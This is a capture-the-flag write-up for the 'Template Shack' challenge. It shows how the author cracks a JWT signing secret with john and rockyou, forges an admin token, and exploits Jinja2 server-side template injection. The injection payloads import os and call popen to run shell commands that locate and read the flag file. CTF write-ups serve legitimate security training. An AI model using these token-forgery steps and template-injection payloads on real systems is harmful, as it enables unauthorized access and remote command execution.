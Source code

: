 ## Write up Template Shack

On the website we got a session-token and token that seems to be a jwt:
to get the secret we have to bruteforce the jwt, using john:

``echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y" > jwt.hash``
To crack it:
``john jwt.hash -w=/usr/share/wordlists/rockyou.txt``
we get the secret as ``supersecret``
![b4120f50ec01db439c6b1a0b2e17f8f3.png](_resources/c7897f309d1b41bca6694b0c50fe6bb6.png)

Decoding it:
![677ce90eb3b8a89b93597677284bfdb0.png](_resources/edef173f1f924dd4bf4b9be989e5d2b4.png)



No we have to create a new token and sign it using the jwt_tool:
![e569e3c4d816e07a1b772e43a10ec4dd.png](_resources/27c86bb8667e43888b85f2fe27a54223.png)
Using this tool we can change guest for admin and sign it with the key:
![67ab31baeab4bf5345583493879465ab.png](_resources/0d09dd7005ed411fa6e80dab4dec1292.png)

now we have a jwt token with "admin" ``eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Ykqid4LTnSPZtoFb11H+/2q+Vo32g4mLpkEcajK0H7I``
changing the token with this value gives us access to de admin panel:

![1b97e21508f7ed17c791a153c436aacb.png](_resources/cf524efaf471459a914df674074bf974.png)

I noticed that inside the admin template when a webpage doesnt exists it renders de endpoint on the 404, for example if I look for /admin/abt.html I got:
![d26a25bb83b73a84cb913901c4a06eaa.png](_resources/ee4ef6fa2e3149428fcd900e2f90cb41.png)

This added to the name of the challenge made me think about template injection and bingo:
![0ada9bdc9cc0f7636be6951b93d8ee7f.png](_resources/bc7b222a05394a07b2d0e41d87e9f0f7.png)
So there is probably python running on the backgroung as this is a feature of flask jinja so lest find it out with ``{{ [].__class__.__base__.__subclasses__() }}``:
![1a41206868d5c17e10b3a8cf7044e622.png](_resources/f164d7016bf643edaba7377899c1188b.png)
So now we just need to use the os library to read the flag:
``{{ request.application.__globals__.__builtins__}}}`` we can access the builtins so we will try to import the os with ``{ request.application.__globals__.__builtins__.__import__('os')}}``
![9ea482a3850c3e64e933167c48b47b7f.png](_resources/d3ff18b2a9f648c9a3e9e75fb19e4543.png)
Its time to find the flag.txt ``{{ request.application.__globals__.__builtins__.__import__('os').popen('find / -name flag.txt').read()}}``
![c1c780927a45638edfbabb212872c8e8.png](_resources/d7e17b2be5c141bc8fcee36137c945e4.png)
and finally cat the flag ``{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /home/user/flag.txt').read()}}``
![9c8b0fc698ca5267541f7672ddb4da4c.png](_resources/133eb074a30742abafd3d3486a1bd323.png)

And that was all!